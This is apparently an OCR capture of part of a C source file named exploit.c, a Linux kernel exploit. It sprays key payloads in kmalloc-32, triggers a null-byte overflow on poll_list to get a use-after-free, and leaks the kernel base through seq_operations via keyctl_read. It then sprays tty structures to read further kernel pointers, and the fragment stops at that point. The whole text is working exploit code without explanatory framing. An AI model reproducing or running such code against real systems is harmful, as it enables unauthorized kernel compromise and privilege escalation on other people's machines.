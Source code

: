 ```exploit.c
  for(int ix = NUM_1ST_POLLLIST_ALLOC; ix < NUM_1ST_POLLLIST_ALLOC + 3; ++ix) {
    pthread_join(threads[ix], NULL);
  }

  // Spray again victim `user_key_payload` in kmalloc-32
  spray_keys(NUM_KEY_SPRAY, 'A');

  // NULL-byte overflow (hopelly) on `poll_list`, whose `next` pointer get pointing to `user_key_payload` in kmalloc-32.
  puts("[+] NULL-byte overflow ing...");
  nullbyte_overflow();

  // Wait all `poll_list` are freed
  for (int ix = 0; ix != NUM_1ST_POLLLIST_ALLOC; ++ix) {
    open("/proc/self/stat", O_RDONLY);
    pthread_join(threads[ix], NULL);
  }
  puts("[+] Freed all 'poll_list'");

  // Place `seq_operations` on UAFed `user_key_payload` in kmalloc-32
  for(int ix = 0; ix != NUM_SEQOPERATIONS; ++ix) {
    if ((seqops_fd[ix] = open("/proc/self/stat", O_RDONLY)) <= 2) errExit("open seqops");
  }

  // Check all keys to leak kbase via `seq_operations`
  ulong single_show = 0;
  key_serial_t uafed_key = 0;
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    int num_read;
    memset(keybuf, 0, 0x5000);
    if((num_read = keyctl_read(keys[ix], keybuf, 0x5000)) <= 0) errExit("keyctl_read");
    if (strncmp(keybuf, "AAAA", 4) != 0) {
      single_show = *(ulong*)keybuf;
      uafed_key = keys[ix];
      if (single_show == 0) {
        puts("[-] somehow, empty key found");
      } else break;
    }
  }
  if (single_show == 0) {
    puts("[-] Failed to leak kbase");
    exit(1);
  }
  printf("[!] leaked single_show: 0x%lx\n", single_show);
  kbase = single_show - (0xffffffff813275c0 - 0xffffffff81000000);
  printf("[!] leaked kbase: 0x%lx\n", kbase);

  // Free all keys except UAFed key
  for (int ix = 0; ix != NUM_KEY_SPRAY * 2; ++ix) {
    if (keys[ix] != uafed_key) free_key(keys[ix]);
  }
  sleep(1); // wait GC(security/keys/gc.c) actually frees keys

  // Place `tty_file_private` on UAFed `user_key_payload` in kmalloc-32
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    if ((tty_fd[ix] = open("/dev/ptmx", O_RDWR | O_NOCTTY)) <= 2) errExit("open tty");
  }

  // Read `tty_file_private.tty` which points to `tty_struct` in kmalloc-1024
  memset(keybuf, 0, 0x5000);
  int num_read = 0;
  if((num_read = keyctl_read(uafed_key, keybuf, 0x5000)) <= 0) errExit("keyctl_read");
  printf("[+] read 0x%x bytes from UAFed key\n", num_read);
```